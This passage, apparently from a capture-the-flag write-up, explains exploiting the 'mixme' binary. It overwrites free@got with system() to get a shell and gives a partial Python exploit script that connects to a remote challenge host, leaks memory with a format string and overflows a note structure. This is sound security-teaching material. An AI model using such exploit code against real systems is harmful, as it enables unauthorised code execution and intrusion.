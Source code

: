 ```bash
LD_PRELOAD=./libc-2.19-0ubuntu6.14.so ./mixme
``` 

and attached `gdb` to dump the address of `system()`. Using the aforementioned value from the stack, I calculated the offset to `system()`. I quickly modified my script to include this, overwriting `free@got` with `system()`. When I now made a note with the value `/bin/sh` and asked the binary to `get` that note, it wants to `free()` it. However, `free@got` is replaced with system(), effectively making the binary call `system('/bin/sh');`!

So, in true dirty-ctf-style, the following python script was written after hours of frantic tracing with gdb and coding in python. 

```python
import re
import string
import struct
import socket
import time
import telnetlib
import sys

def p(x):
    return struct.pack('<L', x)

# function to send commands to the binary
def z(sock, x):
    sock.send(x + '\n')
    time.sleep(0.01)
    data = sock.recv(200)
    time.sleep(0.01)
    return data

# connect to remote host
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('54.163.248.69', 9005))

# receive banner
s.recv(512)

# ask the binary to store three notes
# we'll overflow a into b later on
z(s, "store")
z(s, "a")
z(s, "4")
z(s, "AAAA")

z(s, "store")
z(s, "b")
z(s, "4")
z(s, "BBBB")

# the third note will hold our format string
z(s, "store")
z(s, "c")
format_str = "--%3$x"
z(s, str(len(format_str)))
z(s, format_str)

# edit a with a large value
# this overflows and overwrites the note_info struct of b
# the pointer to the data is overwriting with free@got
print "[+] overflowing a to set b to free@got"
z(s, 'edit')
z(s, 'a')
```